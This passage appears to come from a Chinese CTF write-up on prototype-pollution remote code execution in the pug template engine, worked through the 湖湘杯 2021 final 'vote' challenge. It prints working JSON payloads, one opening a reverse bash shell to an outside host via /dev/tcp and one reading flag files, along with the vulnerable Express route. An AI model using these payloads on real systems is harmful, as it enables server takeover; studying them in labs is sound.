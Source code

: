 构造 `Payload`
```javascript
 {
    "__proto__.block": {        
        "type": "Text",         
        "line": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
    }
}
```
#### 例题[湖湘杯 2021 final] vote
> 考察的是 pug 模板下的 rce

源码如下：
```javascript
const path              = require('path');
const express           = require('express');
const pug               = require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const { hero } = unflatten(req.body);

	if (hero.name.includes('奇亚纳') || hero.name.includes('锐雯') || hero.name.includes('卡蜜尔') || hero.name.includes('菲奥娜')) {
		return res.json({
			'response': pug.compile('You #{user}, thank for your vote!')({ user:'Guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with correct name.'
		});
	}
});

module.exports = router;
```
给了 `./api/submit` 路由，然后看到 `pug.compile`
稍微修改下 `payload` ，直接使用(这道题反弹`shell`不成功)
```json
{
    "hero.name":"锐雯",
    "__proto__.block": {
        "type": "Text",
        "line": "process.mainModule.require('child_process').execSync('cat /f* > ./static/1.txt')"
    }
}
```

---